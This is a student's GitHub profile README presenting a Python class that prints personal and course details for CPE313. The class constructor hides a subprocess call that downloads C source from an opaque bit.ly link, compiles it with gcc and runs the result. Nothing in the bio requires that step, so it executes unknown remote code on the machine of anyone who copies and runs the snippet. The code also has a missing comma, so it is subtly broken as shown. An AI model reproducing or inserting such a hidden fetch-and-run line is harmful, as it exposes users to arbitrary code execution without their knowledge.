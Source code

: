 <h1 align="center">Yo 👋, I'm John Errol Dela Rosa 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🪪 Last name'                : 'Dela Rosa'
      '- 🙋‍♂️ You can call me'          : 'Jep',
      '- 🤷🏻‍♂️ What is this, nani'       : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'  : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in': 'Technological Institute of the Philippines',
      '- 🌱 I’m currently pursuing'   : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},

      '- 📓 Course code - title'      : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                  : 'CPE32S8',
      '- 📊 Elective'                 : 'Data Science',
      '- 🏨 Hotel'                    : 'Trivago',
      '- ❔ I dont know'              : '¯\_(ツ)_/¯',
      '- 👨‍💻 My website project'       : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'            : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                          'into a cup, it becomes the cup. You put water into a bottle and it'
                                          'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                          'Now, water can flow or it can crash. Be water, my friend.'),
      '- ⚡ Fun fact'              : ('Did you know? Bungee Gum possesses the properties of both rubber and gum.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/NVIDIA_1650-76b900?style=for-the-badge&logo=nvidia&logoColor=%23fff" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/RYZEN_7_4800H-ed1c24?style=for-the-badge&logo=amd&logoColor=%23fff&label=AMD&labelColor=%23555" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/LAPTOP-000?style=for-the-badge&logo=hp&logoColor=%23fff&label=HP&labelColor=%23555" alt="HP Laptop"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/AKKO_3068B_PLUS-8071b3?style=for-the-badge&logo=akko-white" alt="AKKO 3068B Plus"></a>
</p>
